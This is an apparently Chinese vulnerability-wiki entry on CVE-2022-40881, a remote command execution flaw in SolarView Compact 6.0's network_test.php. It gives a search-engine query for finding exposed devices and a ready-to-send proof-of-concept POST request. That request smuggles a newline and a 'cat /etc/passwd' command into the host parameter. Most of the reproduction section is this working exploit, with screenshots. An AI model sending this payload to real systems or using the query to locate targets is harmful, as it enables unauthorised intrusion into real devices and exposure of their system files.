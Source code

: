 # SolarView network_test.php 远程命令执行漏洞 CVE-2022-40881

## 漏洞描述

SolarView network_test.php 存在远程命令执行漏洞，攻击者通过构造特殊的请求，可以获取服务器权限

## 漏洞影响

<a-checkbox checked>SolarView Compact 6.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="SolarView Compact" && title=="Top"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1654151463845-e856185f-ea32-4bbc-b9e6-39bf569c8f72-0128095.png)

验证POC

```php
POST /network_test.php
  
host=%0acat${IFS}/etc/passwd%0a&command=ping
```

![img](/assets/PeiQi-Wiki/img/1670128065393-34dcd02a-13db-4542-8069-421575487d03.png)
